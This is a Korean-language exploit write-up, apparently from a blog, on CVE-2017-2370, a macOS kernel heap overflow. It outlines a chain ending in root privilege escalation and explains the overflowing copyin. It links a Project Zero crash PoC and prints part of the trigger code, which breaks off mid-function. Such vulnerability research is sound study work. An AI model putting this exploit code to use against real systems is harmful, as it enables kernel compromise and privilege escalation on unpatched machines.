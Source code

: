 
<br>

### 목차

1. Heap Overflow
2. OOL Port Fengshui
3. 조작된 데이터 찾기
4. 커널 주소 획득
5. 현재 프로세스와 커널 프로세스 찾기
6. 커널 권한 획득 ( AAR / AAW )
7. 권한 상승 (user -> root)

<br>

#### (1) Heap Overflow

CVE-2017-2370은 macOS 10.12.2 이하 버전의 mach_voucher_extract_attr_recipe_trap(struct mach_voucher_extract_attr_recipe_args *args)에서 힙 오버플로우가 발생하는 취약점이다.

mach_voucher_extract_attr_recipe_args 구조체는 아래와 같다.

{% highlight c %}
struct mach_voucher_extract_attr_recipe_args {
	PAD_ARG_(mach_port_name_t, voucher_name);
	PAD_ARG_(mach_voucher_attr_key_t, key);
	PAD_ARG_(mach_voucher_attr_raw_recipe_t, recipe);
	PAD_ARG_(user_addr_t, recipe_size);
};

/* osfmk/mach/mach_traps.h */
#define PAD_ARG_(arg_type, arg_name) \
  char arg_name ##_l_[PADL_(arg_type)];
  arg_type arg_name;
  char arg_name ##_r_[PADR_(arg_type)];
{% endhighlight %}

mach_voucher_extract_attr_recipe_trap()을 호출할 때 넘기는 인자인 mach_voucher_extract_attr_recipe_args 구조체 내 `mach_voucher_attr_raw_recipe_t recipe`와, `user_addr_t recipe_size`값을 임의 조작이 가능하다. 따라서, 함수 내부에서 `void* kalloc(vm_size_t size);`으로 할당한 커널의 힙 영역에 `int copyin(const void *uaddr, void *kaddr, size_t len);`함수로 복사하며 이 때, 조작된 args->recipe_size를 가지고 있기 때문에 오버플로우가 발생한다.

특히, args->recipe도 조작할 수 있기 때문에 오버플로우시 임의 데이터를 작성할 수 있다.

- [Crash PoC](https://bugs.chromium.org/p/project-zero/issues/attachmentText?aid=260804){:target="_blank"}
  Trigger code:

{% highlight c %}
/* ---- FROM exp.m ---- */
uint64_t roundup(uint64_t val, uint64_t pagesize) {
	val += pagesize - 1;
	val &= ~(pagesize - 1);
	return val;
}
void heap_overflow(uint64_t kalloc_size, uint64_t overflow_length, uint8_t* overflow_data, mach_port_t* voucher_port) {
	
	int pagesize = getpagesize();

	void* recipe_size = (void*)map(pagesize);
	*(uint64_t*)recipe_size = kalloc_size;

	uint64_t actual_copy_size = kalloc_size + overflow_length;
	uint64_t alloc_size = roundup(actual_copy_size, pagesize) + pagesize;
    uint64_t base = map(alloc_size); // unmap page
    
    uint64_t end = base + roundup(actual_copy_size, pagesize);
    mach_vm_deallocate(mach_task_self(), end, pagesize); // for copyin() stop
    
    uint64_t start = end - actual_copy_size;